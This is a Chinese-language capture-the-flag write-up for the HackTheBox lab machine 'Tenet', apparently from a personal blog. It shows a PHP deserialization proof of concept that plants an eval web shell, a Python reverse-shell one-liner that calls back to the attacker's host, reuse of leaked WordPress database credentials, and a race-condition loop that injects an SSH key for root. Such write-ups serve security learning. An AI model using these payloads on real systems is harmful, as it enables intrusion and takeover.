 # HackTheBox-Tenet

  
  
&lt;!--more--&gt;  
```bash  
sudo nmap --min-rate 10000 -A -sS 10.129.210.162  
  
Host is up (0.15s latency).  
Not shown: 998 closed tcp ports (reset)  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:   
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)  
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)  
|_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)  
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))  
|_http-title: Apache2 Ubuntu Default Page: It works  
Device type: firewall  
Running (JUST GUESSING): Fortinet embedded (94%)  
OS CPE: cpe:/h:fortinet:fortigate_100d  
Aggressive OS guesses: Fortinet FortiGate 100D firewall (94%), Fortinet FortiGate-50B or 310B firewall (89%)  
No exact OS matches for host (test conditions non-ideal).  
Network Distance: 2 hops  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
TRACEROUTE (using port 80/tcp)  
HOP RTT       ADDRESS  
1   367.08 ms 10.10.16.1  
2   367.04 ms 10.129.210.162  
  
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 119.63 seconds  
```  
`80`端口存在一个`Apache`默认页面  
利用`dirsearch`扫描，扫描到一个`wordpress`目录  
将域名添加到`host 10.129.210.162 tenet.htb`  
通过网站文章得知  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404162151396.png)
存在`sator.php.bak`文件  
```php  
&lt;?php  
  
class DatabaseExport  
{  
	public $user_file = &#39;users.txt&#39;;  
	public $data = &#39;&#39;;  
  
	public function update_db()  
	{  
		echo &#39;[&#43;] Grabbing users from text file &lt;br&gt;&#39;;  
		$this-&gt; data = &#39;Success&#39;;  
	}  
  
  
	public function __destruct()  
	{  
		file_put_contents(__DIR__ . &#39;/&#39; . $this -&gt;user_file, $this-&gt;data);  
		echo &#39;[] Database updated &lt;br&gt;&#39;;  
	//	echo &#39;Gotta get this working properly...&#39;;  
	}  
}  
  
$input = $_GET[&#39;arepo&#39;] ?? &#39;&#39;;  
$databaseupdate = unserialize($input);  
  
$app = new DatabaseExport;  
$app -&gt; update_db();  
  
  
?&gt;  
```  
很明显存在反序列化漏洞  
构造`poc`  
```php  
&lt;?php  
  
class DatabaseExport  
{  
	public $user_file = &#39;users.txt&#39;;  
	public $data = &#39;&#39;;  
  
    public function __construct(){  
        $this-&gt;user_file=&#34;shell.php&#34;;  
        $this-&gt;data=&#34;&lt;?php eval(\$_REQUEST[1]);?&gt;&#34;;  
    }  
}  
$o = new DatabaseExport();  
echo urlencode(serialize($o));  
  
?&gt;  
```  
访问`shell.php`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404162157835.png)
利用`python3`反弹`shell`  
`?1=system(&#39;export RHOST=&#34;10.10.16.6&#34;;export RPORT=1234;python3 -c \&#39;import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv(&#34;RHOST&#34;),int(os.getenv(&#34;RPORT&#34;))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(&#34;/bin/bash&#34;)\&#39;&#39;);`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404162201096.png)
收集数据库账号和密码  
```php  
define( &#39;DB_NAME&#39;, &#39;wordpress&#39; );  
  
/** MySQL database username */  
define( &#39;DB_USER&#39;, &#39;neil&#39; );  
  
/** MySQL database password */  
define( &#39;DB_PASSWORD&#39;, &#39;Opera2112&#39; );  
  
/** MySQL hostname */  
define( &#39;DB_HOST&#39;, &#39;localhost&#39; );  
  
/** Database Charset to use in creating database tables. */  
define( &#39;DB_CHARSET&#39;, &#39;utf8mb4&#39; );  
```  
通过`/etc/passwd`得知存在`neil`账户，利用密码复用  
成功登陆  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404162204331.png)
打开`user.txt`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404162205224.png)
`sudo -l`查看一下权限  
```  
Matching Defaults entries for neil on tenet:  
    env_reset, mail_badpass,  
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:  
  
User neil may run the following commands on tenet:  
    (ALL : ALL) NOPASSWD: /usr/local/bin/enableSSH.sh  
```  
可以`root`权限运行`/usr/local/bin/enableSSH.sh`文件  
文件的大概代码逻辑就是向`tmp`目录中写入公钥文件名为`tmp-xxx`接着在写入到`/root/.ssh/authorized_keys`中，  
这里利用条件竞争写入，先本地生成密钥后写入  
```bash  
while true  
do  
echo &#39;ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDBi/2i5Ihf1Lov/drxsMhcW6JC3&#43;I1kYSyBwFLfjxjZU&#43;g31osMQA9OD6FqLbCZY02jNCdrp2lZScRHGIjzLixG&#43;zu5mUdQ4HIEuZ9xU8alaVtgPYocBSgLaB/A/&#43;7B9Tws/30aEw8PXa0Dpiku0j7q84Rx2oIAV41WSZjmEaIhs01Wmai3kDnFzrjiZFA1gaq0TH&#43;QzR0EYllYKbPqQScSQc2WPPlawcp&#43;EHIEMooH&#43;3EAPO9BDcORxMRM8nCfEFXKYPMeSXsb7nfCr1C/ERKTQ85DK0pY9C&#43;URS8jjntti8BInStiBi24mSNHo2HEhPkHc0zGBga5VPiiRXRggZGISjx5rvn3182RujljlJX/lRIKLpKzcpFqXavDChCXfBaEz1qBAMSimfaMTrijzLKTW62x4KsvhZo0BgWowJxjXA1kI/mmOuYrmI3Gglh40M/hexcvLQjvPQvoCYtdqKSRgOwti8XdYHz/gnpEIjDBAW2bH3hUNZPcfag9AZIiek= root@ubuntu&#39;|tee /tmp/ssh-*  
done  
```  
接着运行`/usr/local/bin/enableSSH.sh`文件  
`ssh root@10.129.210.162 -p 22 -i id_rsa`  
成功登陆  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404162247477.png)

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/hackthebox-tenet/  

